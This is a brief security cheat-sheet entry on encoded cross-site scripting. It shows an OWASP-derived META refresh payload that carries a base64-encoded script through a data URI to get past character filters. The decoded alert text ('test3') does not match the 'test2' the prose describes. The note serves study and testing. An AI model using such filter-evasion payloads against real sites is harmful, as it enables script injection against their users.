 # Code Encoding XSS

we can use encoded script injection directly in the url.
We need to encode a part of the injection to bypass restrictions like special chars

with the example from owasp, we can inject a JS script in the META tag and will encode <script>alert('test2')</script> in base64
```html
<META HTTP-EQUIV="refresh"CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">
```

## External Resources

https://owasp.org/www-community/attacks/xss/